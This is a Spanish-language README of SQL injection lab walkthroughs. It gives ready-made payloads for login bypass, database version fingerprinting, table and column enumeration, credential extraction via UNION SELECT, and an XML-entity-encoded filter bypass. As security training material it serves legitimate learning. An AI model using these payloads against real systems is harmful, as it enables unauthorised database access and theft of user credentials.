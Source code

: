 
```markdown
# Prácticas de Web Hacking

## SQL Injection

Este repositorio contiene ejemplos prácticos de vulnerabilidades de inyección SQL y cómo explotarlas. A continuación, se describen los procedimientos para cada tipo de ataque.

---

### 1. SQL Injection en la cláusula WHERE para recuperar datos ocultos

1. Accede a una categoría en la aplicación web.
2. Modifica la URL cambiando la categoría por la cadena: `'+OR+1=1--`.
3. Accede a la URL modificada.

---

### 2. SQL Injection para bypass de login

1. Haz clic en "My account".
2. Inicia sesión usando el usuario: `administrator'--`.
3. En el campo de contraseña, ingresa cualquier valor.
4. Haz clic en "Log in".

---

### 3. SQL Injection para consultar el tipo y versión de la base de datos en Oracle

1. Accede a una categoría en la aplicación web.
2. Modifica la URL cambiando la categoría por la cadena: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`.
3. Accede a la URL modificada.

---

### 4. SQL Injection con bypass de filtros mediante codificación XML

1. Abre las herramientas de desarrollo (F12).
2. Ve a la pestaña "Network".
3. Haz clic en los detalles de un producto.
4. Haz clic en "Check stock".
5. Copia la petición que recupera el stock como `fetch`.
6. Ve a la pestaña "Console".
7. Pega la petición.
8. Modifica el contenido de la etiqueta `storeId` por:
   ```xml
   &#x31;&#x20;&#x55;&#x4E;&#x49;&#x4F;&#x4E;&#x20;&#x53;&#x45;&#x4C;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6E;&#x61;&#x6D;&#x65;&#x20;&#x7C;&#x7C;&#x27;&#x7E;&#x27;&#x20;&#x7C;&#x7C;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6F;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4F;&#x4D;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;
   ```
9. Ejecuta la petición.
10. Usa las credenciales que muestra el `response` para iniciar sesión como administrador.

---

### 5. SQL Injection para consultar el tipo y versión de la base de datos en MySQL y Microsoft

1. Accede a la categoría "Gifts".
2. Agrega a la URL la siguiente cadena:
   ```
   %27%20UNION%20SELECT%20%40%40version,%20%27def%27%20%23
   ```
3. Accede a la URL modificada.

---

### 6. SQL Injection para listar el contenido de la base de datos en bases no-Oracle

1. Accede a la categoría "Pets".
2. Agrega a la URL la siguiente cadena:
   ```
   '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
   ```
3. Accede a la URL modificada para ver las tablas existentes.
4. Encuentra la tabla objetivo (por ejemplo, `users_kkyhth`).
5. Modifica la URL agregando la siguiente cadena:
   ```
   '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_kkyhth'--
   ```
6. Accede a la URL modificada para ver las columnas de la tabla.
7. Encuentra las columnas de credenciales (por ejemplo, `username_lgajcw` y `password_ckilco`).
8. Modifica la URL agregando la siguiente cadena:
   ```
   %27+UNION+SELECT+username_lgajcw,+password_ckilco+FROM+users_kkyhth--
   ```
9. Usa las credenciales del administrador para iniciar sesión.

---

### 7. SQL Injection para listar el contenido de la base de datos en Oracle

1. **Determina el número de columnas y su tipo**:
   Usa la siguiente carga útil en el parámetro `category`:
   ```sql
   '+UNION+SELECT+'abc','def'+FROM+dual--
   ```
2. **Recupera la lista de tablas**:
   Usa la siguiente carga útil:
   ```sql
   '+UNION+SELECT+table_name,NULL+FROM+all_tables--
   ```
3. **Encuentra la tabla de credenciales**.
4. **Recupera los detalles de las columnas**:
   Usa la siguiente carga útil (reemplaza `USERS_ABCDEF` con el nombre de la tabla):
   ```sql
   '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
   ```
5. **Encuentra las columnas de nombres de usuario y contraseñas**.
6. **Recupera las credenciales**:
   Usa la siguiente carga útil (reemplaza los nombres de la tabla y las columnas):
   ```sql
   '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
   ```

